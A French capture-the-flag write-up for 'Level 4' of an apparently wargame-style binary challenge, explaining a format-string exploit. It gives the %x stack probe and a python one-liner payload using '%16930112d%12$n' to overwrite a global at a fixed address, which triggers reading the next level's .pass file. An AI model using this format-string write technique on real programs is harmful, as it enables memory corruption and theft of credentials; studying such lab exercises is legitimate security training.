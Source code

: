 ## Level 4

Comme au niveau précédent, nous décompilons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

![image](https://user-images.githubusercontent.com/29956389/89816256-84c63f80-db46-11ea-941e-fa91ce5768cc.png)

p() fait juste un appel a printf();

![image](https://user-images.githubusercontent.com/29956389/89816303-9d365a00-db46-11ea-9b3e-8408b9e31d91.png)

Par contre, la valeur a réécrite dans `_m` vaut `0x1025544` soit `16 930 116` en
décimal. Cette variable se situe a l'adresse `0x08049810`.

On commence par trouver l'offset de notre argument dans la stack:

`$ ./level4`
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur `0x42424242 (BBBB)` est décalé de 12, due a l'appel de
fonction p() entre le `fgets()` et le `printf()`. On sait donc qu'il faudra utiliser
`'%12$n'`.

Avec toutes ces informations, on construit donc la commande:
`$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4`

Sauf que écrire plus de 16 millions de `B` ne fonctionne évidement pas. (Et tant mieux)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de `printf()`. Ce qui nous donne :

`$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4`

Ce qui nous permet d'éviter de passer 16 millions de charactères, mais ils seront quand meme inséré par `printf()` lors de l'évalutation du format.

Pas besoin cette fois ci d'écrire le retour de la fonction dans un fichier, car
la commande executé par `system()` n'est pas un shell mais, `cat
/home/user/level5/.pass`.

Le flag est donc directement affiché sur notre terminal.
